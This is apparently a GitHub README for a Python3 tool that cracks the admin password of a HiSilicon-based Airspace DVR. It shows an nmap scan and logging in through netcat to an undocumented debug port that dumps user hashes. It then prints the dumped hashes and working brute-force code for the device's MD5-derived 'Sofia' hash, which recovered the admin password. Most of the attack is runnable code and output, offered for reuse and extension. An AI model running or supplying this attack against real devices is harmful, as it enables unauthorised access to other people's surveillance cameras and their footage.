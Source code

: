 # HiSilicon_DVR_hack_python3
Python3 script to bruteforce admin password

So I have a DVR **Airspace CCTV** with a label Model: **SAM-1968**, user has login password as user, but no admin password

nmap scan:
```
Not shown: 65528 closed ports
PORT      STATE SERVICE
23/tcp    open  telnet
90/tcp    open  dnsix
554/tcp   open  rtsp
3800/tcp  open  pwgpsi
6789/tcp  open  ibm-db2-admin
8000/tcp  open  http-alt
49152/tcp open  unknown
MAC Address: 90:02:A9:9B:BB:F2 (Zhejiang Dahua Technology)
```

Was a bit stuck, until I try to netcat to all the ports, see I can login into the port 6789, a debug port, very limited shell with a few commands, among them
*users -u* will dump some kind of user list and some kind of *hash*
   
```
1:admin:Ny2SRZzv:1:1, 2, 3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 54, 55, 5
6, 57, 58, 59, 60:admin 's account:1:4          
2:default:OxhlwSG8:2:3, 4, 5, 6, 7:default account:0:4
3:XXXca:4jejqB7V:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
4:XXXoni:9pmPStaQ:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
5:XXXl:ijoPLH3a:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
6:XXXta:eq4yRN5P:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
7:XXXsa:kEuXCZhl     
```

I didn't recognize the hash format, so I started googling until I found a HiSilicon paper on exploit-db.com
https://www.exploit-db.com/papers/44003

On that excelent paper from Istvan Toth he describes the process he used to hack into the system extract the firmware, among that information he describes the user hash that the firmware uses. He even created a python2 script that replicate from the password the hash.
I converted it to python3 and implemented a function to do a quick a dirty bruteforce, and it worked, I just tried with 4 digits number password and it dumps some of the passwords, for the admin password on that dump I had to go the extra mile and add the word "admin" in front of the digits, and that revelaed the admin123 password.
I guess you can improve it so it can bruteforce using characters, or wordlist, or even a hashcat input, but for me was enough this way.

I'll paste the code here
```
import hashlib
lista =["Ny2SRZzv",
        "OxhlwSG8",
        "4jejqB7V",
        "9pmPStaQ",
        "ijoPLH3a",                                                                            
        "eq4yRN5P",
        "kEuXCZhl" ]
def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg.encode('utf-8'))
    msg_md5 = m.digest()
    for i in range(8):
        n = (msg_md5[2*i] + msg_md5[2*i+1]) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h

for i in range(9999):
    h = sofia_hash(str(i))
    #h = sofia_hash("admin" + str(i))
    if h in lista:
        print ("value %s hash %s" % (str(i) ,h))
```
